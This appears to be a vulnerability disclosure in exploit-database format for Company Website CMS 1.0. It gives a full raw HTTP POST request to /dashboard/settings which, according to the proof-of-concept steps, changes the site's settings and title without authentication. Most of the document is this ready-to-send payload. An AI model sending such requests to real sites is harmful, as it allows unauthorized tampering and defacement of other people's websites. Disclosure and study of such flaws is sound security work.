

# Company Website CMS   - site-settings Identification and Authentication Failures


#### Exploit Title: Company Website CMS   - site-settings Identification and Authentication Failures
#### Exploit Author: webraybtl@webray.com.cn inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15517/company-website-cms-php.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=15517&title=Company+Website+CMS+in+PHP+and+MySQL+Free+Source+Code

#### Version: Company Website CMS  1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Confirmation of the user's identity, authentication, and session management is critical to protect against authentication-related attacks.

#### Payload used:
```
POST /dashboard/settings HTTP/1.1
Host: 192.168.67.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------130129938625432137941198016745
Content-Length: 1646
Origin: http://192.168.67.9
Connection: close
Referer: http://192.168.67.9/dashboard/settings
Upgrade-Insecure-Requests: 1

-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_title"

666
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_keyword"

Church, Marketing
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_desc"

Lorem ipsum dolor sit amet, consectetur adipisicing elit. Impedit nihil tenetur minus quidem est deserunt molestias accusamus harum ullam tempore debitis et, expedita, repellat delectus aspernatur neque itaque qui quod.
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_about"

 Young coders can use events to coordinate timing and communication between different sprites or pieces of their story. For instance, the when _ key pressed block is an event that starts code whenever the corresponding key on the keyboard is pressed.
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_footer"

© 2022 All Rights Reserved
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="follow_text"

Lorem ipsum dolor sit amet, consectetur adipisicing elit. Impedit nihil tenetur minus quidem est deserunt molestias.
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_url"

http://localhost:8080/vogue/
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="save"


-----------------------------130129938625432137941198016745--


```


#### Proof of Concept

1. Send payload
   
2. Open Page http://192.168.67.5/，title has been changed

   

   

   


